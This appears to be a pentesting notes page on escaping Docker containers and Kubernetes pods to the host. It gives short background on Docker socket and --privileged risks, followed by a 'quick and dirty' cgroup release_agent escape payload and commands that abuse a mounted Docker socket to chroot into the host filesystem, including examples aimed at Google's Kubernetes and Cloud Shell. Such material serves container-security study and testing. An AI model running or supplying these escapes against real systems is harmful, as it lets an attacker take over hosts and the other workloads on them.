 # Escaping docker

## Quick summary

Docker runs with root rights. Even when it's running within the docker group. The docker communicates with the containers through a unix socket.



Docker in docker is fairly common. To do this the host's docker socket has to be mounted in the docker container (there are other ways, but this is the most common one).  Used in e.g. Portainer.



The `--privileged` flag exploit relies on relaunching a docker container with this flag. When using this flag, containers have full access to all devices and lack restrictions from sccomp, AppArmor and Linux capabilities

But the `--privileged` flag is overkill, the only needed requirements are:

- Have root in container

- Container must be run with the `SYS_ADMIN`  Linux capability

- Container  must lack AppArmor profile, or otherwise allow the `mount` syscall

- The cgroup v1 virtual filesystem mst be mounted read-write inside the container

By default, docker starts with restricted set of capabilities (doesnt include SYS_ADMIN), and default AppArmor profile is `docker-default`, which prevents the mount syscall.

Default unix socket:

    /var/run/docker.sock



## Quick and dirty way to get out of a privileged k8s pod or docker container

Using cgroups release_agent feature:

```bash
docker run -it --privileged busybox /bin/sh / # echo {payload} | base64 -d > undock.sh
```

Where payload is the following text, base64 encoded:

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```



## Example escape from google k8s

The host is mounted in the container at /host/google/docker/run

```bash
sudo docker -H unix://<docker socket> pull alpine:latest
sudo docker -H unix://<docker socket> run \
    -d \
    -it \
    --name <containername> \
    -v "/proc:/host/proc" \
    -v "/sys:/host/sys" \
    -v "/:/rootfs" \
    --network=host \
    --privileged=true
    --cap-add=ALL
    alpine:latest
sudo docker -H unix://<socket socket> start <containername>
sudo docker -H unix://<socker socket> exec -it <containername> /bin/sh
chroot /rootfs
# You are now in a container with a lot more privileges
docker ps #(will list all docker containers on host)

```



Example - escape docker cloud shell to host OS

```bash
sudodocker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host/bin/bash
```



Sources:

- https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

- 

